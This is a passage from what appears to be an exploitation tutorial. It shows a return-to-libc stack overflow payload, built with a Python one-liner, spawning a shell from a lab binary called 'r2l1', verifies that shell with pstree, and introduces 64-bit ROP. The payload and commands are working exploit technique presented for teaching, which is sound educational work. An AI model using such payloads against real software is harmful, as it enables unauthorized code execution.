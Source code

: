 What happened here? Everything seems to be working as we intended, as the process forks, and then exits normally. But the shell was never available to us.

The same thing happens in the shell:

```
$ python -c 'print 37 * "A" + "\xf7\xe4\x64\xd0"[::-1] + "\xf7\xe3\x84\xff"[::-1] + "\xff\xff\xdf\xc2"[::-1]' | env - PWD=$PWD MYSH=/bin/sh SHLVL=0 $PWD/r2l1
Input something: The first character was: A
$ pstree -p $$
bash(18246)───pstree(21130)
```

> I use pstree to show that there is currently only one process, 18246. `$$` is the pid of the current shell.

This is because stdin closes, causing the shell to exit.

We can prevent this by keeping stdin open:

```bash
$ cat <(python -c 'print 37 * "A" + "\xf7\xe4\x64\xd0"[::-1] + "\xf7\xe3\x84\xff"[::-1] + "\xff\xff\xdf\xc2"[::-1]') - | env - PWD=$PWD MYSH=/bin/sh SHLVL=0 $PWD/book/r2l1
Input something: The first character was: A
█
```

> <() is process substitution.

The blinking cursor now waits for our input. But how can we be sure this is the sh spawned from `r2l1`?

```
Input something: The first character was: A
echo $$
21159
<PRESS CTRL-Z>
$ pstree -p $$
bash(18246)─┬─cat(21155)───bash(21157)
            ├─pstree(21222)
            └─r2l1(21156)───sh(21159)
```

We use `echo $$` to get the pid of the shell, then suspend the job to get back to our main bash shell. The pstree shows us that 21159 is indeed a child of the vulnerable program r2l1.

> Use `fg` to resume the suspended job.

#### Intro to 64-bit ROP

The reason we started looking at ROP with a 32-bit program, is, as stated, that its simpler. If we were to do the same exploit as above on 64-bit, we immediately encounter an obstacle: 32-bit programs use the stack to pass function arguments, while 64-bit programs use registers How do we get the required function arguments (like the address of "/bin/sh" to `system()`) when we can only write to the stack?

This is where return-oriented programmed reveals itself as a huge subject of vast possibilities. Not only can we get any value we want into any register, we have access to Turing complete functionality.
